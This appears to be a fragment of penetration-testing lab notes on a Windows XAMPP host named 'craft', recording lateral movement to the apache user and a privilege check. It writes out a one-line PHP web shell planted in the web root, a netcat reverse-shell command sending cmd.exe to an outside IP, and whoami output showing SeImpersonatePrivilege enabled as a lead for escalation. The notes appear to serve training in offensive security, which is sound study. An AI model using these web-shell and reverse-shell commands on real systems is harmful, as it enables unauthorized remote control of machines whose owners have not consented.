 user cybergeek does not have privileges that allows privilege escalation\. lateral movement to switch to apache user

-  C:\\xampp\\htdocs\>echo "\<?php system\($\_GET\['cmd'\]\); ?\>" \> cmd\.php

-  send nc\.exe to victim machine
-  nc\.exe \-nv 192\.168\.45\.199 4411 \-e cmd\.exe

-  C:\\xampp\\htdocs\>whoami
whoami
craft\\apache

-  C:\\Users\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
